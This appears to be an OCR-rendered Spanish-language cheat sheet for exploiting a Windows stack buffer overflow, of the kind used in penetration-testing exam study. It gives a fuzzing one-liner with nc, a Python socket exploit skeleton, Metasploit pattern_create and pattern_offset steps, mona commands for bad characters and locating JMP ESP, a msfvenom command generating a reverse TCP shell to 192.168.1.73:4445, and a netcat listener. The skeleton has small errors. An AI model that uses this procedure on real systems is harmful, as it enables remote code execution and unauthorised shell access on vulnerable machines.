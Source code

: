 

**averiguar offset**
lanzar "A"\*200
python \-c "print "A"\*100" \|nc ip puerto

<br>
<br>
***

**\- Esqueleto bof**

#!/usr/bin/python
import socket
import sys
from struct import pack

\#\# basura = "A"\*1052 /identifacion de offset
\#\# EIP = pack\("<I"\,0x68A98A7B\) //little endian //aca primerose pone el "B"\*4
\#\# shellcode = //se usa para crear el payload con mfsvenom
\#\# NOPS = "\\x90"\*15 //esto se usa para dar espacio al shellcode para desempaquetar
\#\# Payload = basura \+ EIP \+ NOPS \+ shellcode
s = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)
s.connect(('localhost', 8888))
s.sendall((Payload))
#data = s.recv(8096)
s.close()
print 'Paylad enviado!', repr(data)

***

<br>
<br>
<br>
**\- conociendo el volcado\, se hace offset con patter**
usr/share/metasploit-framework/tools/exploit/pattern\_create.rb 5000 // se pone en basura, se saca el eip y se busca con patter\_offset
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb -q 316A4230 // con esto ya se identifica el offset y queda la basura "316A4230 es el EIP"
\- se pasa el EIP "B"\*4 y despues se pasa el ESP de arriba "C"\*100 <\- esto se convierte en el badchar/shellcode bytearay

<br>
**\- eliminar los badchars/shellcode\, usar mona**
!mona config -set workingfolder path\\%p
!mona bytearray
!mona compare -f path\\bytearray.bin -a ESP\_arriba
!mona bytearray -cbp "\\x00" \<se debe colocar todos los que salgan en el compare>

<br>
**\- generar shellcode**
msfvenom -p windows/shell\_reverse\_tcp LHOST=192.168.1.73 LPORT=4445 -a x86 --platform windows EXITFUNC=thread -b "\\x00" -f c

<br>
!mona modules >>>> aca se debe escoger una libreria que tenga todo false, importante el ASLR (proteccion de memeoria desahbiltado)

<br>
\-\-\-\-\- "\\xFF\\xE4" = 32bits

<br>
!mona find -s "\\xFF\\xE4" -m modulo identificado "\*\*\*\*.dll" << cuando se encuentra se escoge uno de los que estan y se da doble clic, sebe mandar a un jmp esp>>
se seleccionar la direccion de ese jmp esp y se cambia en el EIP del codigo "B"\*4, se debe hacer el little endian

<br>
EIP = pack("<I",0xaabbccddee)

<br>
<br>
\-\-\-\-agregar nops = "\\x90"\*15

<br>
Payload = basura + EIP + NOPS + shellcode

<br>
**\- abrir nc con el puerto especificado nc \-lnvp 4445**
./payload